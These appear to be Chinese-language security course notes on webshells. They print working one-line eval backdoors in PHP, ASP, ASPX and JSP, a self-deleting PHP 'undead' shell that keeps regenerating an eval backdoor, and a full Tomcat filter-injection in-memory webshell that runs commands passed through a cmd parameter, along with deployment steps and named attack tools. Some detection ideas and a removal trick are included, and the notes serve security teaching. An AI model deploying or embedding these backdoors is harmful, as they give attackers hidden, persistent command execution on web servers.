



day6-webshell详解一（上午：一句话、内存马）
常见Webshell类型(一句话、冰蝎．哥斯拉、内存马等),上传方法和利用工具详解
webshell详解
webshell，顾名思义：web指的是在web服务器上，而shell是用脚本语言编写的脚本程序. webshell是web的一个管理工具，可以对web服务器进行操作的权限。
webshell一般是被网站管理员用于网站管理、服务器管理等等一些用途， 但是由于webshell的功能比较强大，可以上传下载文件，查看数据库， 甚至可以调用一些服务器上系统的相关命令（比如创建用户，修改删除文件之类的）. 通常被黑客利用，黑客通过一些上传方式，将自己编写的webshell上传到web服务器的页面的目录下， 然后通过页面访问的形式进行入侵，或者通过插入一句话连接本地的一些相关工具直接对服务器进行入侵操作。
黑客通常利用常见的漏洞，如SQL注入、远程文件包含(RFI)、FTP，甚至使用跨站点脚本攻击(XSS)等 方式作为社会工程攻击的一部分，最终达到控制网站服务器的目的。
简单的说来，webshell就是一个asp、jsp或php木马后门，黑客在入侵了一个网站后， 常常在将这些 asp或php木马后门文件放置在网站服务器的web目录中，与正常的网页文件混在一起。 然后黑客就可以用web的方式，通过asp或php木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等。
webshell种类
webshell又称脚本木马，一般分为大马、小马、一句话木马。
大马，体积大、功能齐全、能够管理数据库、文件管理、对站点进行快速的信息收集，甚至能够提权。
小马，一般而言，我们在上传文件的时候，会被限制上传的文件大小或是拦截的情况，那么我通过小马来上传大马，实现我们想要的功能。
一句话木马，短小精悍、功能强大、隐蔽性好、使用客户端可以快速管理webshell。
常见一句话木马
php
1
| <?php @eval($_POST[value]); ?>
|
1
| <?php assert($_POST[value]);?>
|
1
2
3
| <?php
@preg_replace("/[email]/e",$_POST['h'],"error");
?>
|
asp
1
| <%eval request ("value")%>
|
Text1
| <% execute(request("value")) %>
|
aspx
Text1
| <%@ Page Language="Jscript" %> <% eval(Request.Item["value"]) %>
|
jsp
1
2
3
| <%
if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());
%>
|
WebShell管理工具
Cknife 中国菜刀
antSword 中国蚁剑
冰蝎 动态二进制加密网站管理客户端
weevely3
Altman
Webshell Sniper
Quasibot
哥斯拉
WebShell的原理
在线php环境
https://c.runoob.com/compile/1/
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
| <?php @eval($_POST[value]); ?>
<?php
$x = $_POST[value];
@eval($x);
?>
<?php
system('whoami');
?>
<?php
$x = shell_exec('uname -a');
echo $x;
?>
<?php
$x = exec('uname -a');
echo $x;
?>
|
PHP中一些执行shell命令最常用的函数。
1
2
3
4
5
6
| system()函数将命令作为参数，并输出结果。
exec()功能是将命令作为参数，但不输出结果。
shell_exec()函数类似于exec()，但是，其整个输出结果为字符串。
passthru()执行一个命令并返回原始格式的输出。
proc_open()函数可能很难理解。简单地说，我们可以使用proc_open()，创建一个处理程序（流程），实现脚本和要运行的程序之间的通信。
|
内存马
https://mp.weixin.qq.com/s/1gbqITFThA1qJ-u7iyu2bQ
前言
经过近几年护网演练各种攻防对抗的开展，各个厂商对于传统的webshell文件都有很强的检测模型及检测技术，而内存马却不容易被检测到，本次小编整理了各类内存Webshell工具的使用方法和各类内存Webshell的识别方法。以便大家可以更加了解内存马的原理，而且如果真的不幸被植入内存马，也能更及时的解决。
内存Webshell简介
内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。
内存webshell原理
其原理是先由客户端发起一个web请求，中间件的各个独立的组件如Listener、Filter、Servlet等组件会在请求过程中做监听、判断、过滤等操作，内存马利用请求过程在内存中修改已有的组件或者动态注册一个新的组件，插入恶意的shellcode达到持久化的控制服务器。

php内存马
php内存马也就是php不死马是将不死马启动后删除本身，在内存中执行死循环，使管理员无法删除木马文件。本次演示是将php不死马放到web目录下访问后及执行会在本地循环生成php一句话木马。
检测思路：
- 检查所有php进程处理请求的持续时间
- 检测执行文件是否在文件系统真实存在
1
2
3
4
5
6
7
8
9
10
| <?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE__);
while (1){
$content = '<?php @eval($_POST["zxc"]) ?>';
file_put_contents("bsm22.php", $content);
usleep(10000);
}
?>
|
函数说明：
- ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行，如果设置为 true，则忽略与用户的断开。
- set_time_limit()函数：设置允许脚本运行的时间，单位为秒。如果设置为0（零），没有时间方面的限制。
- unlink(__FILE__)函数：删除文件。
- file_put_contents函数：将一个字符串写入文件。
- usleep函数：延迟执行当前脚本若干微秒（一微秒等于一百万分之一秒）。
实战
1.将php不死马放到web目录下
2.访问代码执行成功并生成后门
3.执行完生成php一句话木马
4.查看phpinfo
5.对于不死马，直接删除脚本是没有用的，因为php执行的时候已经把脚本读进去解释成opcode运行了。使用条件竞争写入同名文件进行克制不死马。
删除：
将usleep改为小于php不死马的参数
1
2
3
4
5
6
7
8
9
10
11
| <?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE__);
while (1){
$content = 'xxx';
file_put_contents("bsm22.php", $content);
usleep(100);
}
?>
|
Java内存马
filter型内存马原理
Filter：FIlter为过滤器可以对用户的一些请求进行拦截修改等操作。当web.xml中注册了一个Filter来对某个 Servlet 程序进行拦截处理时该 Filter 可以对Servlet 容器发送给 Servlet 程序的请求和 Servlet 程序回送给 Servlet 容器的响应进行拦截，可以决定是否将请求继续传递给 Servlet 程序，以及对请求和相应信息进行修改。filter型内存马是将命令执行的文件通过动态注册成一个恶意的filter，这个filter没有落地文件并可以让客户端发来的请求通过它来做命令执行。

web服务器根据Filter在web.xml文件中的注册顺序，决定先调用哪个Filter，当第一个Filter的doFilter方法被调用时，web服务器会创建一个代表Filter链的FilterChain对象传递给该方法。在doFilter方法中，开发人员如果调用了FilterChain对象的doFilter方法，则web服务器会检查FilterChain对象中是否还有filter，如果有，则调用第2个filter，如果没有，则调用目标资源。
filter检测思路：
- 带有特殊含义的filter的名字比如shell等。
- Filter的优先级，filter内存马需要将filter调至最高
- 查看web.xml中有没有filter配置
- 检测特殊的classloader
- 检测classloader路径下没有class文件
- 检测Filter中的doFilter方法是否有恶意代码
filter内存马实战：
这里我们将公开的filter类型的内存马文件直接上传到tomcat网站下，访问内存马后就植入成功了，植入成功后在删掉相对的jsp文件也不会影响内存马的运行，但是重启tomcat服务器后内存马即失效。注入成功后在路径后加入?cmd=后跟命令即可。
内存马代码
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
| <%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import = "org.apache.catalina.Context" %>
<%@ page import = "org.apache.catalina.core.ApplicationContext" %>
<%@ page import = "org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import = "org.apache.catalina.core.StandardContext" %>
<!-- tomcat 8/9 -->
<!-- <%@page import = "org.apache.tomcat.util.descriptor.web.FilterMap"%>
<%@page import = "org.apache.tomcat.util.descriptor.web.FilterDef"%> -->
<!-- tomcat 7 -->
<%@ page import = "org.apache.catalina.deploy.FilterMap" %>
<%@ page import = "org.apache.catalina.deploy.FilterDef" %>
<%@ page import = "javax.servlet.*" %>
<%@ page import = "java.io.IOException" %>
<%@ page import = "java.lang.reflect.Constructor" %>
<%@ page import = "java.lang.reflect.Field" %>
<%@ page import = "java.util.Map" %>
<%
class filterDemo implements Filter {
@Override
public void init(FilterConfig filterConfig) throws ServletException {
}
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
String cmd = servletRequest.getParameter("cmd");
if (cmd!= null) {
Process process = Runtime.getRuntime().exec(cmd);
java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
new java.io.InputStreamReader(process.getInputStream()));
StringBuilder stringBuilder = new StringBuilder();
String line;
while ((line = bufferedReader.readLine()) != null) {
stringBuilder.append(line + '\n');
}
servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
servletResponse.getOutputStream().flush();
servletResponse.getOutputStream().close();
return;
}
filterChain.doFilter(servletRequest, servletResponse);
}
@Override
public void destroy() {
}
}
%>
<%
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
Map filterConfigs = (Map) Configs.get(standardContext);
String name = "filterDemo";
if (filterConfigs.get(name) == null){
filterDemo filter = new filterDemo();
FilterDef filterDef = new FilterDef();
filterDef.setFilterName(name);
filterDef.setFilterClass(filter.getClass().getName());
filterDef.setFilter(filter);
standardContext.addFilterDef(filterDef);
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/");
filterMap.setFilterName(name);
filterMap.setDispatcher(DispatcherType.REQUEST.name());
standardContext.addFilterMapBefore(filterMap);
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
filterConfigs.put(name,filterConfig);
out.write("Inject success!");
}
else{
out.write("Injected!");
}
%>
|
tomcat启动
C:\Users\hp\Desktop\apache-tomcat-9.0.62\bin
web目录
C:\Users\hp\Desktop\apache-tomcat-9.0.62\webapps\ROOT

